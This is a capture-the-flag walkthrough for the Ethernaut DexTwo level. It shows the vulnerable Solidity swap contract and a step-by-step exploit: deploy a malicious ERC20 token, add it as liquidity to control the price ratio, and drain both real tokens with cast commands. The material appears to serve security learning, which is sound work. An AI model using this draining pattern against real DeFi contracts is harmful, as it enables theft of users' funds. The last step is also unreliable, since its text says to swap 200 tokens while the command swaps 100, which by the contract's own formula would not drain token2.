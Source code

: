 ## Dex Level Outline

**Difficulty : 4/10**

This level will ask you to break DexTwo, a subtlely modified Dex contract from the previous level, in a different way.

You need to drain all balances of token1 and token2 from the DexTwo contract to succeed in this level.

You will still start with 10 tokens of token1 and 10 of token2. The DEX contract still starts with 100 of each token.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract DexTwo  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_amount(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_amount(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableTokenTwo(token1).approve(spender, amount);
    SwappableTokenTwo(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableTokenTwo is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0xd2BA82c4777a8d619144d32a2314ee620BC9E09c)

## Solution

The price is calculated based on the ratio of tokenA and tokenB. If we createa a malicious ERC20 token and add liquidity to the contract, we can control the exchange rate and drain all tokens.

### Walkthrough

##### 1. Create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import "openzeppelin-contracts/contracts/token/ERC20/ERC20.sol";

contract MaliciousToken is ERC20 {
    constructor() ERC20("MaliciousToken", "MALTKN") {
        _mint(msg.sender, 1000000);
    }
}
```

##### 2. Deploy our new contract
```console
forge create src/Contract.sol:MaliciousToken --private-key  $PRIVATE_KEY
```

##### 3. Approve the Dex contract to spend our tokens. We need to do this to add liquidity
```console
cast send $DEPLOYED_ADDRESS "approve(address,uint256)" $LEVEL_ADDRESS 200 --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

##### 4. Send 100 of our `MALTKN` to the dex so that the price ratio between `token1` and `MALTKN` is 1:1
```console
cast send $LEVEL_ADDRESS "add_liquidity(address,uint)" $DEPLOYED_ADDRESS 100 --gas 150000 \ 
--private-key $PRIVATE_KEY
```


##### 5. Let's get the addresses for `token1` and `token2`
 
```console
cast call $LEVEL_ADDRESS "token1()"

cast call $LEVEL_ADDRESS "token2()"
```

##### 6. Now that the exchange rate is 1:1, let's send swap 100 of our malicious token to `token1` to drain the dex's supply of `token1`.
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN1_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```

##### 7. Now the total supply of `MALTKN` in the contract is 200, meaning that the ratio between `MALTKN` and `token2` will be 0.5:1 
 
to drain the supply of `token2` we need to swap 200 `MALTKN` for `token2`
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $DEPLOYED_ADDRESS $TOKEN2_ADDRESS 100 --gas 250000 \
--private-key $PRIVATE_KEY
```


---

##### [:arrow_left: Back To Main Menu](../README.md)

